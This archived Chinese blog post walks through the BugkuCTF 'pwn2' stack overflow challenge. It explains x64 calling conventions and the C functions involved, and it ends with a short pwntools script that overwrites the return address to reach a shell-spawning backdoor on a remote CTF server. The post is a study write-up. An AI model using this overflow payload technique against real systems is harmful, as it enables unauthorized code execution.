









<!--yml
category: 未分类
date: 2022-04-26 14:53:05
-->

# BugkuCTF-PWN题pwn2-overflow超详细讲解_彬彬有礼am_03的博客-CSDN博客_bugkupwn2

> 来源：[https://blog.csdn.net/am_03/article/details/119999626](https://blog.csdn.net/am_03/article/details/119999626)

## 解题思路

1）计算出get_shell_的地址偏移量
2）算出来之后就直接溢出到后门函数

## 知识点

## x64函数调用规则

解题之前我们先学下linux x64的函数调用规则。
x64机器在调用某个函数前，比如int func(int a, int b, int c, int d, int e, int f, int g, int h)，首先他会把前6个参数从左往右存入到寄存器rdi、rsi、rdx、rcx、r8、r9，其余参数存入到栈里，保存的顺序是从右往左入栈。比如abcdef会存入到寄存器里，然后一次入栈h、g。
保存完参数之后再把函数后面一条指令的地址入栈保存。
栈结构

上图就是一个函数的栈结构，上面是栈顶，下面是栈底，栈顶是低地址，栈底是高地址，read函数往栈里写数据是从栈顶往栈底写入

栈顶指针（寄存器）：rsp
栈底指针（帧指针）：rbp

## C语言知识点

**memset**
memset：可以方便的清空某个结构类型的变量或数组，作用是在一段内存块里填充某个给定的值，它是对较大的结构体或数组进行清零操作的一类最快方法，为string.h头文件里的函数，按字节对内存块进行初始操作
例：memset(buffer, 0, sizeof(buffer)) 给buffer清出一个sizeof（buffer）大小的空间，填充0，做数组初始操作工作。

**setvbuf**
为什么要使用setvbuf函数
如果你的内存足够大，可以把文件IO的BUF设置大一些，这样每次你用
fopen/fread/fwrite/fscanf/fprintf语句的时候，都会在内存里操作，减少内存到磁盘IO读写的操作次数，提高系统效率。
如果你的程序的功能涉及到类似数据库、视频、音频、图像处理等大量需要爆发式磁盘到内存的IO情况下，可以考虑setvbuf进行优化内存IO。
功 能: 把缓区与流相关

**puts()**
puts()函数用来向标准输出设备屏幕输出字符串并换行。
具体是把字符串输出到屏幕上，将‘\0’转换为回车换行。调用方式是：puts(str)。其里str是字符串数组名或者字符串指针。实际上，数组名就是指针。
puts() 输出更简洁、更方便。而且使用 puts() 函数连换行符 ‘\n’ 都省了，使用 puts() 显示字符串时，系统会自动在其后添加一个换行符，也就是说
printf("%s\n", name);和：puts(name)是等价的

**read():**
函数原型： int read(int fd,void *buf,int len);
功能：用于读取打开文件的内容
参数：int fd 为要读取的文件
void *buf 为要将读取的内容保存的缓冲区
int len 读取文件的长度
返回值：返回实际读取的字节数
read(0,&s,0x100uLL):读取s这个变量0x100个字节，即从外部读取0x100的数据到s里

## 解题流程

0、在Linux里打开文件，使用file命令查看文件类型

64位文件
checksec检查保护情况

未开启任何保护，尝试运行一下

1、使用IDA 64 Pro打开文件
查看主函数

通过观察这个程序的逻辑我们发现s这个变量申请了0x30个字节，但是下面read函数读取了s这个变量0x100个字节，所以存在栈溢出。

然后发现在main函数下面有一个get_shell_函数，双击下去发现这个函数的地址是0x400751，先把这个地址记下来。

下面就是在gdb里打开pwn2，然后创建随机字符，并运行。
发现RBP段的字符被填充为bAA1AAGA，再利用这个字符计算出偏移量。


然后根据偏移量写出脚本就可以了

```
from pwn import *

io = remote("114.67.246.176", 18766)   
payload = b'a' * (0x30 + 0x8) + p64(0x400751) 
io.recvline("say something?\n")   
io.send(payload)   
io.interactive() 
```

运行

得到flag{99kls08s6d5a73bcd}